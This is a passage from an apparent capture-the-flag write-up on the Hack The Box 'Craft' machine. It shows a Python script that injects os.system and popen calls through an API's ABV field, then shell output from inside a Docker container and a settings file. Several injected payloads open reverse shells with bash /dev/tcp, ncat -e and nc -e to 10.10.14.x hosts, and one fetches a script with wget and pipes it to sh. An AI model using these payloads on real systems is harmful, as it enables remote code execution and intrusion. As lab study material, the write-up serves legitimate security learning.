     # create a sample brew with bogus ABV... should fail.

    print("Create bogus ABV brew")
    brew_dict = {}
    #brew_dict['abv'] = '__import__("os").system("/bin/bash -i >& /dev/tcp/10.10.14.51/7777 0>&1")'
    #brew_dict['abv'] = '__import__("os").system("wget 10.10.14.51:8081/$(ls ./lolll.sh)")'
    #brew_dict['abv'] = '__import__("os").system("ncat 10.10.14.51 4444 -e /bin/sh &")'
    #brew_dict['abv'] = '__import__("os").system("wget -O - 10.10.14.51:8081/shell.py | sh")'
    brew_dict['abv'] = '__import__(\'os\').popen(\'nc 10.10.14.194 7777 -e /bin/sh\').read()'
    #brew_dict['abv'] = '0.15'
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

    json_data = json.dumps(brew_dict)
    print json_data
    response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
    print(response.text)

## API: reverse shell

Once we get a relay on the box we notice that we are root… but in a docker.

    :::text
    cat release_agent
    /var/lib/docker/overlay2/28e271a4328612a47294bbae8c8b7f01470e29454eef499b5beda147a55000e0/diff/c
    uname -a
    Linux 5a3d243127f5 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 Linux
    cat /proc/1/cgroup
    10:pids:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    9:memory:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    8:blkio:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    7:perf_event:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    6:net_cls,net_prio:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    5:freezer:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    4:devices:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    3:cpuset:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    2:cpu,cpuacct:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c
    1:name=systemd:/docker/5a3d243127f5cfeb97bc6332eda2e4ceae19472421c0c5a7d226fb5fc1ef0f7c

## MySQL

We explorer the application folder and found some database settings.

    :::text
    cat craft_api/settings.py
    # Flask settings
    FLASK_SERVER_NAME = 'api.craft.htb'
    FLASK_DEBUG = False  # Do not use debug mode in production
